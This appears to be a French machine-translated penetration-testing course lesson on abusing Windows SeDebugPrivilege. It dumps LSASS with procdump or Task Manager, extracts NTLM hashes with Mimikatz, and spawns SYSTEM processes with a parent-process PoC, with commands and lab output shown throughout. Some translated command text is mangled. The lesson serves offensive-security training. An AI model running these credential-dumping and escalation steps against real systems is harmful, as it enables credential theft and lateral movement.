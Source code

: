 SeDebugPrivilege
================

* * * * *

Pour exécuter une application ou un service particulier ou aider au dépannage, un utilisateur peut se voir attribuer le [SeDebugPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/ debug-programs) au lieu d'ajouter le compte au groupe d'administrateurs. Ce privilège peut être attribué via une stratégie de groupe locale ou de domaine, sous `Paramètres de l'ordinateur > Paramètres Windows > Paramètres de sécurité`. Par défaut, seuls les administrateurs disposent de ce privilège car il peut être utilisé pour capturer des informations sensibles de la mémoire système ou accéder/modifier les structures du noyau et des applications. Ce droit peut être attribué aux développeurs qui ont besoin de déboguer de nouveaux composants système dans le cadre de leur travail quotidien. Ce droit d'utilisateur doit être accordé avec parcimonie, car tout compte qui lui est attribué aura accès aux composants critiques du système d'exploitation.

Lors d'un test d'intrusion interne, il est souvent utile d'utiliser des sites Web tels que LinkedIn pour recueillir des informations sur les utilisateurs potentiels à cibler. Supposons, par exemple, que nous récupérions de nombreux hachages de mots de passe NTLMv2 à l'aide de `Responder` ou `Inveigh`. Dans ce cas, nous pouvons concentrer nos efforts de piratage de mot de passe sur d'éventuels comptes de grande valeur, tels que les développeurs qui sont plus susceptibles d'avoir ces types de privilèges attribués à leurs comptes. Un utilisateur peut ne pas être un administrateur local sur un hôte mais avoir des droits que nous ne pouvons pas énumérer à distance à l'aide d'un outil tel que BloodHound. Cela vaudrait la peine de vérifier dans un environnement où nous obtenons des informations d'identification pour plusieurs utilisateurs et avons un accès RDP à un ou plusieurs hôtes, mais sans privilèges supplémentaires.

![image](https://academy.hackthebox.com/storage/modules/67/debug.png)

Après s'être connecté en tant qu'utilisateur disposant du droit `Déboguer les programmes` et avoir ouvert un shell élevé, nous constatons que `SeDebugPrivilege` est répertorié.

```
C:\htb> whoami /priv

INFORMATIONS SUR LES PRIVILÈGES
----------------------

Nom du privilège Description État
======================================== ========= ================================================= ======= ========
Programmes de débogage SeDebugPrivilege désactivés
SeChangeNotifyPrivilege Bypass traverse la vérification activée
SeIncreaseWorkingSetPrivilege Augmenter un ensemble de travail de processus Désactivé

```

Nous pouvons utiliser [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) de [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads /sysinternals-suite) suite pour tirer parti de ce privilège et vider la mémoire du processus. Un bon candidat est le processus du service de sous-système de l'autorité de sécurité locale ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)), qui stocke les informations d'identification de l'utilisateur après qu'un utilisateur se connecte à un système.

```
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Utilitaire de vidage de processus Sysinternals
Copyright (C) 2009-2020 Mark Russinovich et Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Vidage 1 lancé : C:\Tools\Procdump\lsass.dmp
[15:25:45] Écriture du vidage 1 : la taille estimée du fichier de vidage est de 42 Mo.
[15:25:45] Vidage 1 terminé : 43 Mo écrits en 0,5 seconde
[15:25:46] Nombre de vidages atteint.

```

C'est réussi, et nous pouvons le charger dans `Mimikatz` à l'aide de la commande `sekurlsa::minidump` . Après avoir émis les commandes `sekurlsa::logonPasswords` , nous obtenons le hachage NTLM du compte administrateur local connecté localement. Nous pouvons l'utiliser pour effectuer une attaque pass-the-hash pour nous déplacer latéralement si le même mot de passe d'administrateur local est utilisé sur un ou plusieurs systèmes supplémentaires (courant dans les grandes organisations).

Remarque : C'est toujours une bonne idée de taper "log" avant d'exécuter des commandes dans "Mimikatz". Ainsi, toutes les sorties de commande placeront la sortie dans un fichier ".txt". Ceci est particulièrement utile lors du vidage des informations d'identification d'un serveur qui peut avoir de nombreux ensembles d'informations d'identification en mémoire.

```
C:\htb> mimikatz.exe

   .#####. mimikatz 2.2.0 (x64) #19041 18 sept. 2020 19:18:29
  .## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
  ## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
  ## \ / ## > https://blog.gentilkiwi.com/mimikatz
  '## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
   '#####' > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Utilisation de 'mimikatz.log' pour le fichier journal : OK

mimikatz # sekurlsa::minidump lsass.dmp
Basculer vers MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Ouverture : fichier 'lsass.dmp' pour minidump...

Identifiant d'authentification : 0 ; 23196355 (00000000:0161f2c3)
Session : Interactif à partir de 4
Nom d'utilisateur : DWM-4
Domaine : Gestionnaire de fenêtres
Serveur de connexion : (null)
Heure de connexion : 31/03/2021 15:00:57
SID : S-1-5-90-0-4
         msv :
         tspkg :
         wdigest :
          * Nom d'utilisateur : WINLPE-SRV01$
          * Domaine : GROUPE DE TRAVAIL
          * Mot de passe : (null)
         kerberos :
         ssp :
         credman :

<SNIP>

Identifiant d'authentification : 0 ; 23026942 (00000000:015f5cfe)
Session : RemoteInteractive à partir de 2
Nom d'utilisateur : Jordan
Domaine : WINLPE-SRV01
Serveur de connexion : WINLPE-SRV01
Heure de connexion : 31/03/2021 14:59:52
SID : S-1-5-21-3769161915-3336846931-3985975925-1000
         msv :
          [00000003] Primaire
          * Nom d'utilisateur : jordan
          * Domaine : WINLPE-SRV01
          * NTLM : cf3a5525ee9414229e66279623ed5c58
          * SHA1 : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
         tspkg :
         wdigest :
          * Nom d'utilisateur : jordan
          * Domaine : WINLPE-SRV01
          * Mot de passe : (null)
         kerberos :
          * Nom d'utilisateur : jordan
          * Domaine : WINLPE-SRV01
          * Mot de passe : (null)
         ssp :
         credman :

<SNIP>

```

Supposons que nous ne soyons pas en mesure de charger des outils sur la cible pour une raison quelconque, mais que nous disposions d'un accès RDP. Dans ce cas, nous pouvons effectuer un vidage manuel de la mémoire du processus `LSASS` via le gestionnaire de tâches en accédant à l'onglet `Détails` , en choisissant le processus `LSASS` et en sélectionnant `Créer un fichier de vidage`. Après avoir téléchargé ce fichier dans notre système d'attaque, nous pouvons le traiter en utilisant Mimikatz de la même manière que dans l'exemple précédent.

![image](https://academy.hackthebox.com/storage/modules/67/WPE_taskmgr_lsass.png)

* * * * *

Exécution de code à distance en tant que SYSTEM
-------------------------------

Nous pouvons également tirer parti `SeDebugPrivilege` pour [RCE](https://decoder.cloud/2018/02/02/getting-system/). Grâce à cette technique, nous pouvons élever nos privilèges à SYSTEM en lançant un [processus enfant](https://docs.microsoft.com/en-us/windows/win32/procthread/child-processes) et en utilisant les droits élevés accordés à notre compte via `SeDebugPrivilege` pour modifier le comportement normal du système afin d'hériter du jeton d'un [processus parent](https://docs.microsoft.com/en-us/windows/win32/procthread/processes-and-threads) et usurper l'identité il. Si nous ciblons un processus parent s'exécutant en tant que SYSTEM (en spécifiant l'ID de processus (ou PID) du processus cible ou du programme en cours d'exécution), nous pouvons élever rapidement nos droits. Voyons cela en action.

Tout d'abord, transférez ce [script PoC](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) vers le système cible. Ensuite, nous chargeons simplement le script et l'exécutons avec la syntaxe suivante `[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")`. Notez que nous devons ajouter un troisième argument vide `""` à la fin pour que le PoC fonctionne correctement.

Commencez par ouvrir une console PowerShell élevée (cliquez avec le bouton droit de la souris, exécutez en tant qu'administrateur et saisissez les informations d'identification de l'utilisateur `jordan` ). Ensuite, saisissez `tasklist` pour obtenir une liste des processus en cours d'exécution et des PID associés.

```
PS C:\htb> liste des tâches

Nom de l'image PID Nom de la session N° de session Utilisation de la mémoire
========================= ======== ================ = ========== ============
Processus d'inactivité du système 0 Services 0 4 K
Système 4 Services 0 116 000
smss.exe 340 Services 0 1 212 K
csrss.exe 444 Services 0 4 696 K
wininit.exe 548 Services 0 5 240 K
csrss.exe 556 Console 1 5 972 Ko
winlogon.exe 612 Console 1 10 408 Ko

```

Ici, nous pouvons cibler `winlogon.exe` s'exécutant sous le PID 612, qui, nous le savons, s'exécute en tant que SYSTEM sur les hôtes Windows.

![image](https://academy.hackthebox.com/storage/modules/67/psgetsys_winlogon.png)

Nous pourrions également utiliser l'applet de commande [Get-Process](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-process?view=powershell-7.2) pour saisir le PID d'un processus bien connu qui s'exécute en tant que SYSTEM (tel que LSASS) et transmet le PID directement au script, réduisant ainsi le nombre d'étapes requises.

![image](https://academy.hackthebox.com/storage/modules/67/psgetsys_lsass.png)

D'autres outils tels que [celui-ci](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC) existent pour faire apparaître un shell SYSTEM lorsque nous avons `SeDebugPrivilege`. Souvent, nous n'aurons pas d'accès RDP à un hôte, nous devrons donc modifier nos PoC pour renvoyer un shell inversé à notre hôte d'attaque en tant que SYSTEM ou une autre commande, comme l'ajout d'un utilisateur administrateur. Jouez avec ces PoC et découvrez les autres moyens d'accéder au SYSTÈME, en particulier si vous ne disposez pas d'une session entièrement interactive, par exemple lorsque vous réalisez une injection de commande ou que vous disposez d'une connexion Web Shell ou d'une connexion Shell inversée en tant qu'utilisateur avec `SeDebugPrivilege`. . Gardez ces exemples à l'esprit au cas où vous vous retrouveriez dans une situation où le vidage de LSASS n'entraîne aucune information d'identification utile (bien que nous puissions obtenir un accès SYSTEM avec uniquement le hachage NTLM de la machine, mais cela est en dehors de la portée de ce module) et un shell ou RCE comme SYSTEM serait bénéfique.